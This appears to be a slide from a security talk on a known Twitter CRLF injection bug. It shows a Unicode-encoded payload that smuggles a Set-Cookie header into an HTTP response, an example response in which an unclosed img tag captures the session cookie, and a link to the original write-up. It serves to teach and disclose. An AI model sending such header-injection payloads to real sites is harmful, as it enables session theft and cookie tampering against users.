

# Twitter CRLF
%E5%98%8A%E5%98%8DSet-Cookie:%20test
HTTP/1.1 200 OK
Content-Type: text/html;
charset=utf-8[CR][LF]
Set-Cookie: foo=[CR][LF]
[CR][LF]
<img src="
Set-Cookie: twitter_sess=[...]; HTTPOnly[CR][LF]
[CR][LF]
<p class="twttr">Original response body</p>

https://blog.innerht.ml/twitter-crlf-injection/